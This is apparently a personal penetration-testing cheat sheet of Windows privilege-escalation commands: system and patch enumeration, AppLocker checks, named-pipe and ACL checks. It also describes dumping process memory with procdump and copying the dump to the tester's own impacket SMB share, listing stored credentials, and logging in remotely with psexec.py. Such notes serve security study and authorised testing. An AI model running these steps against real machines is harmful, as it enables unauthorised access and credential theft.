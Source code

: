 # Windows Escaltion

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
		Interesting Privileges:
			SeDebugPrivilege
			SeTakeOwnership
			SeBackupPrivilege
			SeLoadDriverPrivilege
	whoami /priv in cmd as admin
	whoami /groups		Displays current user groups
		Interesting Groups:
			Backup Operators
			Event Log Readers
			DnsAdmins
			Server Operators
	whoami /groups in cmd as admin
	net user		Print all users
	net localgroup		Print all groups
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	
	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

	cmdkey /list	Lists stored credentials

## System info

Check if Windows version has any known vulnerability (also check the patches applied)

		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		systeminfo #Prints information of the system, including hotfixes applied
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" #Get only that information

		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe get Caption,Description,HotFixID,InstalledOn #Patches
		wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE% #Get system architecture

		[System.Environment]::OSVersion.Version #Current OS version
		Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid} #List all patches
		Get-HotFix | ft -AutoSize
		Get-Hotfix -description "Security update" #List only "Security Update" patches

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission


## Check weak permission

	Use the sharpup too to check service binaries suffering from weak ACLS

		SharpUP.exe audit
			https://github.com/GhostPack/SharpUp/
	Check permissions using icacls
		https://ss64.com/nt/icacls.html


## If we are in a Active Directory Environment

	Use snaffler to search for credentials.

## Remote Login with username and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
	https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation